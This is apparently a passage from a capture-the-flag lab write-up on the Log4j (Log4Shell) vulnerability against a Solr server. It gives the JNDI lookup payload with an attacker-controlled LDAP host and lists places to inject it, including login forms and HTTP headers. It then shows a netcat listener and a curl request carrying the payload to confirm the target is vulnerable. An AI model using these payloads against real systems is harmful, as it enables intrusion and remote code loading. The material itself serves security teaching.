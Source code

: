 * `${sys:os.name}`
* `${sys:user.name}`
* `${log4j:configParentLocation}`
* `${ENV:PATH}`
* `${ENV:HOSTNAME}`
* `${java:version}`

The general payload to abuse this log4j vulnerability is:

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

The syntax above can be broken down as the follows:

* **`${}`** syntax are executed as they are entered into the log files.
* \*\*`jdni` \*\* is the Java Naming and Directory Interface and infers that the command will invoke functionality from this API which allows Java applications to discover, look up and access external data resources.
* **`ldap://`** indicates that the target will reach out to an external attacker controlled endpoint via LDAP.
* **`ATTACKERCONTROLLEDHOST`** will be the IP address or FQDN of the attacker controlled host.

This syntax could be entered anywhere in an application that uses the Log4j package where user input data is logged by the application

Example:

* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as `User-Agent`, `X-Forwarded-For`, or other customizable headers
* **Any place for user-supplied data**

Unfortunately, it is very hard to determine where the attack surface is for different applications, and _what_ applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.

So we'll start a netcat listener on any port and then in another terminal, make a request using the JNDI payload syntax using curl

![nc -lvp 9999](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png>)

![curl 'http://10.10.222.223:8983/solr/admin/cores?foo=${jndi:ldap://10.10.230.16:9999}'](<../../.gitbook/assets/image (27) (1) (1) (1) (1) (1) (1) (1) (1).png>)

As a result, we have verified that the target is in fact vulnerable by seeing the connection caught in the netcat listener
